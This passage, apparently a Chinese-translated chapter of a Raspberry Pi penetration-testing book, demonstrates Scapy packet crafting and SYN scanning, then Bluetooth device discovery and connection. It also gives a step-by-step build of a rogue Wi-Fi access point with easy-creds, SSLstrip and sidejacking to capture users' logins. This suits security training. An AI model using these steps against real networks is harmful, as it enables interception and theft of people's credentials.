\xde1P7\xe0\x86\xac\x14k\xaf\xbe\xe4\x91L\x06\xcd2\xc5v\x08Q\xee
\xd5\xa3k\xa7\xd0\xdf\xba\x03\x8f)d\xcf\xac\xb5\x8eQ\r*\xc6\x03\
x9e\x07N\x1c\x05\x04' |>>>> 
>>>

```

正如我们所看到的，Scapy 可以是一个非常强大的工具，用于读取和写入`PCAP`文件。在我们理解和利用目标的过程中，我们不仅能够瞥见正在发生的情况，而且还能够在需要时真正深入研究数据包，这是非常宝贵的。

### 创建/发送/接收数据包

除了看到信息，Scapy 允许我们做的另一件很酷的事情是创建我们想要的任何类型的数据包，并通过网络发送。在本例中，我们将创建一个具有指定负载的 ICMP 数据包，并通过 send 函数发送它。我们可以在目的地捕获数据包，以验证有效负载是否正确。

首先，我们将数据包分配给一个变量，并在发送之前查看该数据包的所有信息：

```
>>> d=(IP(dst="192.168.1.38")/ICMP()/"This is a packet created by Scapy") 
>>> d.show() 
###[ IP ]### 
  version= 4 
  ihl= None 
  tos= 0x0 
  len= None 
  id= 1 
  flags= 
  frag= 0 
  ttl= 64 
  proto= icmp 
  chksum= None 
  src= 192.168.1.222 
  dst= 192.168.1.38 
  \options\ 
###[ ICMP ]### 
     type= echo-request 
     code= 0 
     chksum= None 
     id= 0x0 
     seq= 0x0 
###[ Raw ]### 
        load= 'This is a packet created by Scapy' 

```

现在我们可以通过`sr`功能发送：

```
 >>> sr(d) 
Begin emission: 
.......................Finished to send 1 packets. 
......* 
Received 30 packets, got 1 answers, remaining 0 packets 
(<Results: TCP:0 UDP:0 ICMP:1 Other:0>, <Unanswered: TCP:0 UDP:0 
ICMP:0 Other:0>) 

```

如果我们只想创建并发送一个数据包，我们也可以简单地在一个命令中完成这一切：

```
>>> 
>>> send(IP(dst="192.168.1.38")/ICMP()/"This is a packet created by Scapy") 
. 
Sent 1 packets. 

```

以下是 Wireshark 视图的屏幕截图，我们用来验证指定的负载是否已到达主机并包含我们创建的负载：


我们还可以使用一些内置函数来查看发送和接收信息。这是使用`ans`完成的：

```
>>> ans,unans=_ 
>>> ans.summary() 
IP / ICMP 192.168.1.222 > 192.168.1.38 echo-request 0 / Raw ==> IP /
ICMP 192.168.1.38 > 192.168.1.222 echo-reply 0 / Raw

```

### 创建和发送格式错误的数据包

正如我们所看到的，Scapy 帮助我们制作了自己的数据包——但正如我们将在这里看到的，它还可以方便地让我们制作和发送格式错误的数据包。格式错误的数据包会对网络和终端系统产生非常不利的影响，因此能够动态生成它们非常有用。

生成并发送格式错误的数据包的过程非常简单。在本例中，我们将创建一个版本号无效的 ICMP 数据包。然后，我们将查看完整的数据包，并在使用`send()`功能将其发送到目的地之前验证版本是否正确：

```
>>> d=IP(dst="192.168.1.38", ihl=2, version=10)/ICMP() 
>>> d.show() 
###[ IP ]### 
  version= 10 
  ihl= 2 
  tos= 0x0 
  len= None 
  id= 1 
  flags= 
  frag= 0 
  ttl= 64 
  proto= icmp 
  chksum= None 
  src= 192.168.1.222 
  dst= 192.168.1.38 
  \options\ 
###[ ICMP ]### 
     type= echo-request 
     code= 0 
     chksum= None 
     id= 0x0 
     seq= 0x0 
>>> send(d) 
WARNING: Mac address to reach destination not found. Using broadcast. 
. 
Sent 1 packets. 
>>> 

```

### TCP 同步扫描

Scapy 能够执行各种类型的扫描，包括 UDP 扫描、IP 扫描和 Xmas 扫描，仅举几个例子。在我们的测试中，我们执行了 TCP 扫描。能够向网络上的各种主机发送 TCP SYN 数据包是了解主机上打开或不打开的内容的关键方法。在我们的示例中，我们有一系列的端口正在检查它们是否打开：

```
>>> result,unans = sr(IP(dst="192.168.1.134")/TCP(flags="S",dport=[22,23,25,80,443,3306])) 
Begin emission: 
.....*..*..*.Finished to send 6 packets. 
*..*..* 
Received 20 packets, got 6 answers, remaining 0 packets 

```

现在我们已经执行了 SYN 扫描，我们可以利用`lfilter`功能执行数据过滤，只显示打开的端口：

```
>>> result.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and 
(r.getlayer(TCP).flags & 2)) ) 
0000 IP / TCP 192.168.1.222:ftp_data > 192.168.1.134:ssh S ==> IP / TCP 192.168.1.134:ssh > 192.168.1.222:ftp_data SA / Padding 
0003 IP / TCP 192.168.1.222:ftp_data > 192.168.1.134:http S ==> IP / TCP 192.168.1.134:http > 192.168.1.222:ftp_data SA / Padding 
0005 IP / TCP 192.168.1.222:ftp_data > 192.168.1.134:mysql S ==> IP / TCP 192.168.1.134:mysql > 192.168.1.222:ftp_data SA / Padding

```

希望，这些例子中的一些已经向您展示了 Scapy 的强大功能，而我们只是打破了可以做到的表面。正如您所了解的，Scapy 完成了许多任务，这些任务可以使用更具体的工具来完成。使用 Scapy 执行这些任务的两个主要优点是，您可以使用一个工具执行许多不同的任务，并且您可以随心所欲地格式化数据。数据输出是非常可定制的。一个主要的缺点是，与只运行更具体的工具相比，使用您想要的数据完成任务可能会很麻烦。有关 Scapy 的更多信息，请查看项目页面[http://www.secdev.org/projects/scapy/](http://www.secdev.org/projects/scapy/) 。

# 盗贼访问蜜罐（修改并重新拍摄）

在计算机术语中，蜜罐是一种陷阱，旨在检测、转移或误导危害计算机系统或网络的企图。典型的蜜罐是一台计算机、一段数据或看起来是真实网络一部分的网段，无论网络多么孤立和/或受到监控。大多数蜜罐表现为易受攻击，并包含一些有价值的东西，以引诱攻击远离真实目标。

通常有两种类型的蜜罐。更常用的是一个**生产蜜罐**，它被设计为网络防御策略的一部分。生产蜜罐通常涉及在网络中放置蜜罐，目的是引诱已经突破其他防御的黑客，并花费他们的时间和精力，这意味着生产蜜罐是防止敏感系统受损的最后努力。这样做还有一个额外的好处，那就是帮助更老练的防御者及其安全合作伙伴观察和描述黑客在旋转轮子攻击诱饵环境时使用的策略和方法。

另一种类型的蜜罐是**监控蜜罐**，它通常放置在网络上，用于观察和潜在地窥探通过它的数据。这类似于 MITM 攻击；然而，蜜罐通常表现为受害者连接的授权来源，而不是像 MITM 攻击那样将自己插入真正授权的网络中。一个例子是开发一个假接入点，受害者认为这是连接网络的可行来源。当受害者使用蜜罐时，攻击者会监视流量，包括捕获登录凭据。当监控蜜罐技术与其自身的流氓无线接入配对时，这也可以被称为**流氓接入蜜罐**。还有其他类型的蜜罐，如高交互和低交互蜜罐、蜜罐客户端等等。然而，其中大多数不适用于树莓圆周率形状因子。

正如我们所定义的，流氓访问蜜罐是基于 Raspberry Pi 的蜜罐最合适的用途，因为我们的重点是捕获数据，而不是破解网络防御，以及利用 Raspberry Pi 的移动外形隐藏此类攻击。

在下面的示例中，我们将创建一个 rogue access 蜜罐，该蜜罐将充当 rogue 无线接入点，目的是在受害者连接到敏感信息以访问 Internet 时捕获敏感信息。我们将把 eth0 端口连接到一个面向 Internet 的端口，并利用 USB 到无线适配器来托管 rogue 无线服务。可以使用无线网络对互联网和恶意无线接口修改攻击；然而，我们需要两个无线接口来实现这一点。对于 Raspberry Pi 3，我们建议使用 USB 适配器提供面向目标的网络，并使用内置适配器连接到合法网络。攻击者可以从任何地方访问 Raspberry Pi 蜜罐，只要在发起攻击之前设置了 VPN 连接。下图显示了我们将构建的内容：



让我们看看一个名为**Easy creds**的流行实用程序，并使用它构建一个 Raspberry Pi Rogue Access 蜜罐。

## 轻松的信用

轻松信用（[https://github.com/brav0hax/easy-creds](https://github.com/brav0hax/easy-creds) 是一个 bash 脚本，它利用 eTerCap 和其他工具获取凭据。Ettercap 包含在[第 3 章](3.html#ch03 "Chapter 3.  Planning the Attack")、*计划攻击*中。然而，easy creds 通过为我们提供开发监控蜜罐所需的所有工具，进一步推动了 MITM 攻击。Easy creds 是菜单驱动的，提供 ARP 欺骗、**动态主机配置协议**（**DHCP**）欺骗、单向 ARP 欺骗和创建虚假**接入点**（**AP**）。

Raspberry Pi 上没有预装 Easy creds，因此我们需要从[下载它 https://sourceforge.net/projects/easy-creds/files/latest/download](https://sourceforge.net/projects/easy-creds/files/latest/download) 。如果我们积极主动并提前安装一些更大的依赖项（参见前面站点的`readme`文件），例如 dsniff、Metasploit、aircrack ng、freeradius 和 eTerCap，我们可以提高成功的机会。

一旦下载了 tarball for Easy creds，我们将导航到下载目录（通常使用`cd Downloads``Downloads)`。现在我们需要通过发出`tar -zxvf easy-*`命令来解压缩我们下载的文件。这将创建一个新目录，我们可以使用`ls`查看该目录命令。让我们用`cd`命令打开该目录，我们将看到使用`ls`命令的安装脚本。我们需要使用`chmod +x installer.sh`命令或`chmod 777 installer.sh`命令将安装脚本设置为可执行文件。以下屏幕截图显示了前面步骤的执行情况：


一旦我们创建了可执行文件，我们将发出`./installer.sh`命令来安装 Easy creds。以下屏幕截图显示了运行 Easy creds 安装脚本后将出现的安装菜单：


因为我们是在 Kali Linux 上运行这个，所以我们将选择**1。菜单中的 Debian/Ubuntu 及其衍生工具**。我们需要按照提示完成安装。我们允许默认的安装路径，以便轻松地在`/opt`文件夹中创建 creds。还将安装更多的依赖项，如果我们对这些依赖项有一些问题，我们可以在脚本完成后单独解决缺少的包（`mdk3`和`ipcalc`是两个更难处理的包）。运行编译和安装脚本将需要一些时间，因此在它完成整个过程时，我们只需坐下来放松一下（喝一杯或遛狗）。

安装完成后，我们可以通过发出`./easy-creds.sh`命令来启动 Easy creds，如下图所示：


运行`.sh`文件后，您将看到 Easy creds 菜单。Easy creds 通常会在每个版本中稍微更改菜单的顺序，因此您的菜单可能与下面的屏幕截图不同。在我们的示例中，我们将选择**1。配置的先决条件&配置**：


设置蜜罐的第一步是确保我们将用于攻击的 IP 地址分发给受害者。为此，我们将安装一个 DHCP 服务器。安装 DHCP 服务器时可能会出错，这意味着您已经从另一个练习或以前安装的工具中安装了 DHCP 服务器。

以下配置菜单截图显示**3。安装 dhcp 服务器**用于安装 dhcp 服务器：



DHCP 服务器安装完成后，我们将选择**5.为 DHCP 服务器**添加隧道接口。

接下来，让我们向下滚动到配置中说明 DHCP 服务器应该侦听哪个接口的部分。我们需要手动输入正确的界面。在我们的实验室中，我们在这里使用 wlan1，因为这是 USB 适配器，而不是内置适配器：



添加完无线接口后，选择返回上一菜单。这是**9。配置菜单截图中的上一个菜单**。现在，让我们使用**3 设置一个伪造攻击。假冒攻击**，如下图所示：


接下来，您将看到几个选项。在我们的示例中，我们将选择**FakeAP 攻击静态**选项，如**1 所示。**在以下截图中：


系统将提示您选择是否要包含劫边攻击。**Sidejacking**描述了通过使用特定服务器上标识受害者的凭据劫持参与的 web 会话的行为。当人们访问我们的蜜罐并登录到网站时，这会很有用。因此，在我们的示例中，我们将为此选项选择**是**。

接下来，将要求您选择连接到 Internet 的接口。在大多数情况下，这将是 wlan0，这意味着设计是让 Raspberry Pi 提供来自接口 wlan1 的恶意无线攻击，并通过 wlan0 上的内置 Wi-Fi 连接将流量传递到互联网。您也可以使用以太网端口`(eth0).`记住，我们需要特别注意我们使用的 SSID，以便看起来合法，并说服用户避免使用真正的 SSID。

选择 Internet 接口后，系统将提示您填写一些其他详细信息，例如日志文件的保存位置和 DHCP 地址空间。填写这些，您将完成基本配置。

现在，您将拥有一个活动的 rogue 无线蜜罐，向客户宣传自己以加入。如果客户机访问网络并使用明文协议，他们的信息将被捕获并显示在 Easy creds 中。如果用户试图打开 HTTPS 网站，Easy creds 还将尝试使用 SSLstrip 将用户重定向到未加密的网页。我们在本章前面介绍了*SSLstrip*。

下图描绘了一组屏幕截图，显示了我们的蜜罐在受害者使用我们的 rogue 无线网络时捕获他们的 Facebook 登录凭据：


您的 Raspberry Pi 现在是一个功能齐全的 rogue access 蜜罐，它将捕获的密码保存到您在配置期间指定的日志文件中。您可以远程访问此日志以获取最终渗透测试报告。您可以在[上找到更多关于简易信用卡的信息 https://sourceforge.net/projects/easy-creds/](https://sourceforge.net/projects/easy-creds/) 。

# 蓝牙测试

随着蓝牙设备的大量使用，以及大多数设备缺乏安全性，不仅测试网络中是否存在蓝牙设备，而且调查它们，这是一项非常重要的安全功能。请记住，蓝牙是一种低功耗无线技术，因此覆盖距离较短。根据蓝牙的等级，距离将从 0.5 米（等级 4）一直变化到 100 米（等级 1）。因此，根据等级和与 Raspberry Pi 的距离，您可能会拿起一些设备，但其他设备可能无法触及。您可能会选择的一些设备示例包括 iWatch、免提耳塞和扬声器等。

在本节中，我们将研究一些工具，这些工具不仅可以用于扫描蓝牙设备，还可以用于调查和潜在连接。蓝牙设备不仅可能被破坏，而且可能是黑客用来获取网络重要信息的一个非常重要的载体。

在我们的测试实验室中，我们注意到，尽管 Raspberry Pi 3 具有板载蓝牙支持，但在使用它时，我们确实看到了一些可用功能的缺失。有些情况下，它无法正确启动，也无法连接到任何东西。因此，我们决定添加一个额外的 USB 蓝牙加密狗。这样我们就可以充分利用我们的蓝牙测试。我们最终购买了熊猫蓝牙 4.0 USB Nano 适配器。我们在 Raspberry Pi 和 Kali Linux 的在线适配器上看到了巨大的成功。我们能够以不到 10 美元的价格买到它，这在亚马逊上是一笔很大的交易：

[https://www.amazon.com/gp/product/B00BCU4TZE/ref=oh_aui_detailpage_o02_s00?ie=UTF8 &psc=1](https://www.amazon.com/gp/product/B00BCU4TZE/ref=oh_aui_detailpage_o02_s00?ie=UTF8&psc=1)

正如您将看到的，我们在测试期间也成功地使用了这个加密狗。

## 蓝木

我们要讨论的第一个工具是**Bluelog**。Bluelog 是一款很棒的小型蓝牙扫描仪，设计用于长时间运行以查看网络上弹出的蓝牙设备。

从 CLI 运行 Bluelog 非常简单。大多数选项都是围绕日志记录设计的。在我们的示例中，我们将运行 Bluelog，指定输出文件以及我们希望在日志输出中包含的一些项。以下是我们实验室运行的结果：



如您所见，我们确实在测试实验室中发现了一些蓝牙设备。您将看到，扫描期间终端上显示的信息与指定日志文件中的输出非常相似：


根据您在日志文件和终端中看到的信息，您可以明确地看到在您希望随时间监视蓝牙设备的部分空间内运行此实用程序的价值。

## 蓝骑兵

**Blueranger**是在该区域内搜索蓝牙设备的另一个伟大工具。它通过发送蓝牙 ping 来实现这一点，并用响应和信号强度进行响应。这个信号强度非常重要，因为它会让你知道设备离你的 Raspberry Pi 有多近。Blueranger 的成功是由于蓝牙安全性差，因为大多数蓝牙设备默认响应此 ping，这让每个人都知道他们在那里。

运行 Blueranger 非常简单。您几乎不需要通过 CLI 进行指定。基本上，您可以指定蓝牙接口（Raspberry Pi 上的 hci0）和您正在寻找的 MAC。有了这些信息，如果设备在范围内，您将看到它的响应及其当前链接质量。

在我们的实验室里，我们正在寻找一个无线扬声器。根据链接质量，您可以看出该设备可能与我们的 Raspberry Pi 非常接近：


当响应返回时，此屏幕将继续显示响应，因此您可以关注**链接质量**以查看设备是否可移动。

## BTC 扫描仪

**Btscanner**是获取蓝牙设备信息的绝佳工具，无需与设备配对。这是一个简单的实用程序，但从中获得的信息非常强大。

运行 Btscanner 同样非常简单。在 CLI 上，只要运行`btscanner,`就可以得到一个简单的基于 GUI 的屏幕，您可以执行一些选项。我们做的第一件事是启动查询扫描，这是通过键入 i 来完成的。屏幕将开始显示找到的设备。以下屏幕截图是我们实验室中发现的内容的一个片段：



如果你看到一个看起来很有趣的设备，你可以向下滚动到它并点击*回车*键。这将更新 GUI 屏幕，向您显示设备上的所有信息。下面的屏幕截图是我们测试的一个示例：


从输出中可以看到，在 Raspberry Pi 范围内的设备上，您可以从该屏幕上获得许多良好的信息。

## 使用蓝牙 CTL 连接蓝牙设备

你在 Raspberry Pi 范围内看到的所有蓝牙设备的扫描和分析都很棒，但是如果我想连接到什么东西呢？当然，使用`bluetoothctl`之类的工具以及您已经从其他工具中收集到的一些其他信息是可能的。Bluetoothctl 是一个基于 CLI 的工具，它可以完成很多任务，包括我们使用以前的工具完成的一些任务。

运行`bluetoothclt`将进入[bluetooth]#提示符，根据您要完成的任务，您可以运行一系列不同的命令。下面的代码片段显示了我们在实验室中启动`bluetoothctl`的过程。您可以看到，启动后，它会发现一堆已经在范围内的设备：

```
root@kali:~# bluetoothctl 
[NEW] Controller 00:1A:7D:DA:71:10 kali [default] 
[NEW] Device 8C:DE:52:1F:F5:07 SRS-BTM8 
[NEW] Device 0C:E0:E4:63:88:55 PLT_VoyagerPRO 
[NEW] Device EE:58:2F:67:1A:58 ANKRC1 000b2b64 
[NEW] Device 68:64:4B:0E:B1:47 Apple TV 
[NEW] Device 6C:94:F8:E6:22:D3 6C-94-F8-E6-22-D3 

```

现在，在我们的实验室中，我们将尝试连接到 SRS-BTM8 设备，这是一个蓝牙扬声器。为此，我们需要在`bluetoothctl`命令中运行一系列其他命令：

```
[bluetooth]# power on 
Changing power on succeeded 
[bluetooth]# agent KeyboardOnly 
Agent registered 
[bluetooth]# trust 8C:DE:52:1F:F5:07 
[CHG] Device 8C:DE:52:1F:F5:07 Trusted: yes 
Changing 8C:DE:52:1F:F5:07 trust succeeded 
[bluetooth]# connect 8C:DE:52:1F:F5:07 
Attempting to connect to 8C:DE:52:1F:F5:07 
[CHG] Device 8C:DE:52:1F:F5:07 Connected: yes 
Connection successful

```

现在我们已经连接到扬声器，我们将通过它播放声音。我们正在使用 mplayer 和 pulseaudio 实用程序。在我们的实验室里，我们必须安装 pulseaudio 以及 pulseaudio 蓝牙软件包。一旦安装了这些软件包，我们在系统上找到了一个`.WAV`文件，并试图在蓝牙扬声器上播放它。以下是我们成功播放声音的 CLI 输出：

```
root@kali:~# mplayer -ao pulse /usr/share/orage/sounds/Phone.wav 
MPlayer 1.3.0 (Debian), built with gcc-5.4.0 (C) 2000-2016 MPlayer Team 
mplayer: could not connect to socket 
mplayer: No such file or directory 
Failed to open LIRC support. You will not be able to use your remote control. 

Playing /usr/share/orage/sounds/Phone.wav. 
libavformat version 57.41.100 (external) 
Mismatching header version 57.25.100 
Audio only file format detected. 
Load subtitles in /usr/share/orage/sounds/ 
========================================================================== 
Opening audio decoder: [pcm] Uncompressed PCM audio decoder 
AUDIO: 11025 Hz, 1 ch, s16le, 176.4 kbit/100.00% (ratio: 22050->22050) 
Selected audio codec: [pcm] afm: pcm (Uncompressed PCM) 
========================================================================== 
AO: [pulse] 11025Hz 1ch s16le (2 bytes per sample) 
Video: no video 
Starting playback... 
A:   2.3 (02.3) of 6.0 (06.0)  0.0% 

MPlayer interrupted by signal 2 in module: play_audio 
A:   2.4 (02.3) of 6.0 (06.0)  0.0%

```

随着蓝牙设备在当今的工作环境中变得越来越突出，并且由于其目前缺乏安全性，任何安全渗透测试都必须考虑到它。风险是存在的，如果你在别人发现之前就发现它，总是会更好。

# 总结

在本章中，我们使用了一些工具，这些工具允许我们秘密访问系统，转移它们的流量，或者对我们的目标造成破坏。主题包括使用各种形式的有效负载破坏系统、社会工程技术、利用浏览器、开发恶意访问蜜罐，目的是通过漏洞或窃取用户凭据获得访问权限。通常，这里的测试会打开更多的门，允许我们在目标环境中横向移动。现在，我们已经介绍了使用树莓 Pi 执行渗透测试的基础知识。有更多的概念需要学习；但是，到目前为止所涵盖的主题将使您大致了解如何使用 Raspberry Pi 进行授权渗透测试。

实践也是必不可少的。我们在研究这些主题和运行这些场景时发现，执行随着每次迭代而改进，并且根据呈现的拓扑、感兴趣的应用程序和防御的复杂性，需要不同的选项和工具。由于这些工具正在积极影响目标，因此必须尽可能利用[第 4 章](4.html#ch04 "Chapter 4.  Explore the Target - Recon and Weaponize")、*探索目标——侦察和武器化*中所述的侦察阶段收集的最佳情报来规划和演练攻击。

对我们的客户来说，这种痛苦是值得的——提出问题而没有解决方案会适得其反。仔细的文档记录和日志记录将确保我们能够有效地利用这些信息，并记录调查结果，以供客户学习和改进。通过正确执行渗透测试杀伤链中的采取行动部分，我们可以在不造成永久性损害的情况下完全破坏目标环境，并为全面、快速撤离做好准备，同时为我们的赞助者提供一流的调查结果和指导。

下一章将介绍完成渗透测试后要做什么。这包括如何以安全的方式清理日志和擦除足迹，以避免留下法医证据。我们还将介绍获取数据的步骤，这些数据可用于开发展示您服务价值的专业渗透测试交付成果。****